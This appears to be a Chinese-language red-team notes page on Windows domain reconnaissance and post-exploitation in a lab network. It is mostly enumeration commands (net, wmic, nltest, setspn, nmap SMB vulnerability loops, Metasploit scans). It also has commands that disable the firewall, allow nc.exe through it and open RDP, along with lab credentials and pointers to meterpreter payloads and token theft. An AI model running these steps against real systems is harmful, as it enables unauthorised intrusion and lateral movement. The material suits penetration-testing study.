


## 内网信息搜集

查看域内域名：

	ipconfig /all



ipconfig /all输出的时候存在域名不代表就存在域

	net view /domain


net view /domain看到的域名有时候是看不到林中其他域的

获取Workgroup管理组成员：
	
	net localgroup administrators


获取域管理组成员：

	net localgroup administrators /domain

一台服务器在升为域控制器时，其本地账户会自动转为域内置组administrators组账户，域中存在一些组，scope是domain local group，表示域本地组，administrators就是一个域本地组，所以要用net localgroup administrators /domain访问，这个组里面的用户对于该域中所有域控制器且仅仅是所有域控制器有完全控制权限，默认domain admins和enterprise admins都是这个组内的账户，administrator默认是该组账户。如前所说，这个组的用户只能控制域控制器，对域内其他成员机器没有权限，但是只要控制了域控制器，相当于控制了其他机器。


获取域内计算机列表：

	net group "domain computers" /domain


msf smb扫描获取系统信息

	msfconsle
	
	use auxiliary/scanner/smb/smb_version
	
	msf auxiliary(smb_version) > set RHOSTS 10.10.40.1-200
	
	msf auxiliary(smb_version) > set THREADS 100
	
	msf auxiliary(smb_version) > run


### 场景一

nmap 扫描存在smb服务的主机：

	nmap -A -p 139,445 10.10.40.1-254  -oG smb_service.txt

找到开放端口的主机：

	cat smb_service.txt | grep -i windows | cut -d" " -f2


	cat smb_service.txt | grep -i open | cut -d" " -f2


	cat smb_service.txt | grep -i open | cut -d" " -f2 > smb_server_all.txt

查找所有的 smb vuln 脚本：

	find / -name smb*vuln*.nse


扫描存在smb漏洞的主机：

	for vul in $(find / -name smb*vuln*.nse | cut -d"/" -f 6); do nmap -v -p 139,445 --script=$vul -iL smb_server_all.txt -oN smb_vulns_$vul.txt; done

	cat smb_vulns_smb-vuln-*.txt | grep IDs:


msf 拿shell

制作更佳稳定可靠的meterpreter payload。

靶机下载payload并执行，拿到meterpreter。

参考：http://www.51testing.com/html/35/n-3720435.html

## 获取靶机操作系统信息

	wmic /node:10.10.40.90 /user:LMRSEC\tony /password:Passw0rd os get name

在本机上执行是无意义的:


获取网络互通的靶机的系统信息：


**成功获取信息的数据包： ```wmic node 10.10.40.90 os get name.pcap```**

**利用前提：靶机把域用户添加到本地管理员组**

不在管理员组可能没权限。


**根据机器上的防护软件进行相应的免杀，落地二进制文件，上线到 CS。**

# 工作组信息搜集

## 操作系统和版本信息

	（英文版）

	systeminfo | findstr /B /C:"OS Name" /C:"OS Version" 

	（中文版）

	systeminfo | findstr /B /C:"OS 名称" /C:"OS 版本"


## 查看系统体系结构

	echo %PROCESSOR_ARCHITECTURE%

## 查看系统所有环境变量 (无需网络操作可以显示域控信息)

	set


## 查看安装的软件及版本和路径等信息

	wmic product get name,version

## 利用 PowerShell 收集软件版本信息

	powershell "Get-WmiObject -class Win32_Product |Select-Object -Property name,version"

## 查询本机服务信息

	wmic service list brief

## wmic 查看进程信息

	wmic process list brief

## 查询进程列表

	tasklist /v

## 查看启动程序信息

	wmic startup get command,caption


## 查看计划任务

	schtasks /query /fo LIST /v

如果提示“无法加载列资源”，重新执行：```chcp 437```，再执行。

## 获取靶机机器上的进程

	wmic /node:10.10.40.90 /user:LMRSEC\tony /password:Passw0rd process get name


## 查看主机开启时间

	net statistics workstation

## 查看当前在线用户

	query user || qwinsta


**此命令只会显示在当前主机已经登录过的用户，已存在未登录的用户不会显示。**

## 使用 wmic 查看补丁列表

	wmic qfe get Caption,Description,HotFixID,InstalledOn

## 查询路由表及所有可用接口的ARP 缓存表

	route print arp –a


## 查询防火墙相关配置

(Windows Server 2003 系统及之前版本)

	netsh firewall set opmode disable 

(Windows Server 2003 系统之后版本)

	netsh advfirewall set allprofiles state off

## 修改防火墙配置

(Windows Server 2003 系统及之前版本)

允许指定程序全部连接

	netsh firewall add allowedprogram c:\nc.exe "allow nc" enable

(Windows Server 2003 之后系统版本)

允许指定程序连入

	netsh advfirewall firewall add rule name="pass nc" dir=in action=allow program="C: \nc.exe"

允许指定程序连出

	netsh advfirewall firewall add rule name="Allow nc" dir=out action=allow program="C: \nc.exe"

允许 3389 端口放行

	netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow

## 自定义防火墙日志储存位置

	netsh advfirewall set currentprofile logging filename "C:\windows\temp\fw.log"

## 查看计算机代理配置情况

	reg query "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Internet Settings"


## 查看远程连接端口  （0xd3d换成10进制即3389）

	REG QUERY "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /V PortNumber


## 在Windows Server 2003 中开启3389 端口

	wmic path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1


## 在Windows Server 2008 和Windows Server 2012 中开启3389 端口

	wmic /namespace:\\root\cimv2\terminalservices path win32_terminalservicesetting where (__CLASS !="") call setallowtsconnections 1wmic /namespace:\\root\cimv2\terminalservices path win32_tsgeneralsetting where (TerminalName='RDP-Tcp') call setuserauthenticationrequired 1reg add "HKLM\SYSTEM\CURRENT\CONTROLSET\CONTROL\TERMINAL SERVER" /v fSingleSessionPerUser /t REG_DWORD /d 0 /f


## 列出或断开本地计算机和连接的客户端的会话

	net session

在Windows系统中，使用net use命令能够实现远程连接网络中其他计算机的共享资源，连接建立后会创建一个net session。 在渗透测试中，如果我们获得了一台Windows主机的权限，在上面发现了net session，就可以利用这个net session，使用net session的token创建进程。net session的token保存在lsass进程中。

参考： [incognito](https://github.com/FSecureLABS/incognito/blob/394545ffb844afcc18e798737cbd070ff3a4eb29/incognito.exe)

https://github.com/FSecureLABS/incognito

[渗透技巧——Token窃取与利用](https://www.4hou.com/posts/GvV7)

https://labs.f-secure.com/assets/142/original/mwri_security-implications-of-windows-access-tokens_2008-04-14.pdf

# 域信息搜集

## 当前登录域与域用户

	net config workstation


## 判断主域

	net time /domain

## 域内基础信息搜集

https://teamssix.com/211027-163641.html#toc-heading-17

## 查看域密码策略信息

	net accounts /domain


## 查看域信任信息

	nltest /domain_trusts


## 查询域用户详细信息

	wmic useraccount get /all


## 查询存在的用户 (域控执行)

	dsquery user


## 查找目录中的计算机 (域控执行)

	dsquery computer


## SPN 扫描

服务主体名称（SPN）是Kerberos客户端用于唯一标识给特定Kerberos目标计算机的服务实例名称。

windows:

	setspn -T domain_name -q */*


	setspn -T lmrsec.com -q */*


流量见 ```setspn -T lmrsec.com -q .pcap```

## 查看域控制器主机名

	nltest /DCLIST:lmrsec


	nslookup -type=SRV _ldap._tcp




## 查看域控器组

	net group "domain controllers" /domain

## psloggedon

[psloggedon使用说明](https://docs.microsoft.com/en-us/sysinternals/downloads/psloggedon)

在 Windows 上使用 net session 可以查看谁使用了本机资源，但不能查看谁在使用远程计算机资源、谁登录了本地或远程计算机，使用 psloggedon 可以查看本地登录的用户和通过本地计算机或远程计算机进行资源登录的用户。

（经过测试工具效果一般）

	psloggedon.exe [-] [-l] [-x] [\\computername|username]- 
	
	显示支持的选项和用于输出值的单位。
	-l 仅显示本地登录，不显示本地和网络资源登录。
	-x 不显示登录时间。
	\\computername 指定要列出登录信息的计算机的名称。
	Username 指定用户名，在网络中搜索该用户登录的计算机。


## netview

https://github.com/mubix/netview/releases/tag/latest


a.txt 内容：

	[*] Using interval: 0
	[*] Using jitter: 0.00
	
	
	[+] Number of hosts: 5
	
	
	[+] Host: AD
	Enumerating AD Info[+] AD - Comment - 
	[+] A - OS Version - 10.0
	[+] AD - Domain Controller
	[+] AD - MSSQL Server
	
	Enumerating IP Info
	[+] (null) - IPv4 Address - 10.10.40.50
	[+] (null) - IPv4 Address - 192.168.91.1
	[+] (null) - IPv4 Address - 192.168.112.1
	
	Enumerating Share Info
	[+] AD - Share : ADMIN$               : ????                          
	[+] AD - Share : C$                   : ????                          
	[+] AD - Share : IPC$                 : ?? IPC                        
	[+] AD - Share : NETLOGON             : Logon server share            
	[+] AD - Share : SYSVOL               : Logon server share            
	
	Enumerating Session Info
	[+] AD - Session - tom from \\10.10.40.54 - Active: 0 - Idle: 0
	
	Enumerating Logged-on Users
	
	
	[+] Host: AYA-PC
	Enumerating AD Info[+] AYA-PC - Comment - 
	[+] A - OS Version - 6.1
	
	Enumerating IP Info
	[+] (null) - IPv6 Address - fe80::61ce:7391:4435:ef5%11
	[+] (null) - IPv4 Address - 10.10.40.54
	
	Enumerating Share Info
	[+] AYA-PC - Share : ADMIN$               : ????                          
	[+] AYA-PC - Share : C$                   : ????                          
	[+] AYA-PC - Share : IPC$                 : ?? IPC                        
	
	Enumerating Session Info
	
	Enumerating Logged-on Users
	[+] AYA-PC - Logged-on - LMRSEC\tony
	[+] AYA-PC - Logged-on - LMRSEC\tom
	[+] AYA-PC - Logged-on - LMRSEC\tom
	[+] AYA-PC - Logged-on - LMRSEC\lmr
	[+] AYA-PC - Logged-on - LMRSEC\lmr
	
	
	[+] Host: QAQ-PC
	Enumerating AD Info[+] QAQ-PC - Comment - 
	[+] Q - OS Version - 6.1
	
	Enumerating IP Info
	[+] (null) - IPv4 Address - 10.10.40.55
	
	Enumerating Share Info
	[+] QAQ-PC - Share : ADMIN$               : ????                          
	[+] QAQ-PC - Share : C$                   : ????                          
	[+] QAQ-PC - Share : IPC$                 : ?? IPC                        
	
	Enumerating Session Info
	[+] QAQ-PC - Session - ANONYMOUS LOGON from \\AYA-PC - Active: 0 - Idle: 0
	[+] QAQ-PC - Session -  from \\AYA-PC - Active: 0 - Idle: 0
	[+] QAQ-PC - Session - tom from \\AYA-PC - Active: 0 - Idle: 0
	
	Enumerating Logged-on Users
	
	
	[+] Host: TONY-PC
	Enumerating AD Info[+] TONY-PC - Comment - 
	[+] T - OS Version - 6.1
	
	Enumerating IP Info
	[+] (null) - IPv4 Address - 10.10.40.53
	
	Enumerating Share Info
	[+] TONY-PC - Share : IPC$                 : ?? IPC                        
	[+] TONY-PC - Share : ISO                  :                               
	[+] TONY-PC - Share : Users                :                               
	
	Enumerating Session Info
	[+] TONY-PC - Session - tom from \\10.10.40.54 - Active: 0 - Idle: 0
	
	Enumerating Logged-on Users
	
	
	[+] Host: WIN2003-1
	Enumerating AD Info[+] WIN2003-1 - Comment - 
	[+] W - OS Version - 5.2
	
	Enumerating IP Info
	[+] (null) - IPv4 Address - 10.10.40.100
	
	Enumerating Share Info
	[+] WIN2003-1 - Share : C$                   : ????                          
	[+] WIN2003-1 - Share : IPC$                 : ?? IPC                        
	[+] WIN2003-1 - Share : ADMIN$               : ????                          
	
	Enumerating Session Info
	[+] WIN2003-1 - Session - TOM from 10.10.40.54 - Active: 0 - Idle: 0
	
	Enumerating Logged-on Users


## (登陆 AD) 查询所有域用户

	dsquery user


## (登陆 AD) 查看域控制器主机名

	netdom query pdc


## 域外信息搜集定位域控

nbtscan 扫 netbios banner

原理：原生nbtscan扫137端口。137端口是在局域网中提供计算机的名字或IP地址查询服务，一般安装了NetBIOS协议后，该端口会自动处于开放状态。很多新的netbios扫描工具就会同时扫139、445tcp，这两个的smb服务banner里面有关于系统版本号等信息，例如[fscan的netbios扫描功能](https://github.com/shadow1ng/fscan/blob/main/Plugins/NetBIOS.go)

	nbtscan 10.10.40.50 


or

	nbtscan 10.10.40.50 -v


## 参考资料

[初级域渗透系列 - 02. 常见攻击方法 - 1](https://www.t00ls.net/articles-30632.html)

[metasploit——（四）使用meterpreter脚本](https://www.cnblogs.com/hdsec/p/9522306.html)

[msf之后渗透（笔记）](https://blog.csdn.net/p_utao/article/details/108381939)

[Description of User Account Control and remote restrictions in Windows Vista](https://docs.microsoft.com/en-us/troubleshoot/windows-server/windows-security/user-account-control-and-remote-restriction)

[红队后渗透测试中的文件传输技巧](https://paper.seebug.org/834/)

[嘶吼](https://www.4hou.com/)

